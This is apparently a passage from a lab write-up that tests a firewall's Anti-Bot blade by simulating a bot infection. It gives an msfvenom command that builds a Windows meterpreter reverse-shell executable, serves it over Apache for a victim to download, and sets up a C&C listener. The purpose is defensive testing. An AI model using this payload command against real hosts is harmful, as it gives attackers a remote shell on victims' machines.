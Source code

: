 <br>

## Anti-Bot

> Anti-Bot identifies and blocks communication between infected hosts (bots) and command-and-control (C&C) servers. It uses behavioral analysis and threat intelligence to detect bot-infected devices within the network.

<br>

Next we'll simulate a Bot Attack by placing an infected application on host inside the network that tries to connect to C&C server on the outside, to do that we'll first create the payload using msfvenom on Kali Linux and host it on port 80 for the victim to download

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe -o /var/www/html/bot.exe
sudo service apache2 start
```

![x](/static/2025-07-07-cp-ips/14.png)

<br>

Next we'll setup a listener on port 4444 as C&C Server for the victim to connect to

![x](/static/2025-07-07-cp-ips/15.png)

<br>

After the victim downloads and runs the file, it will try to initiate a connection to our listener
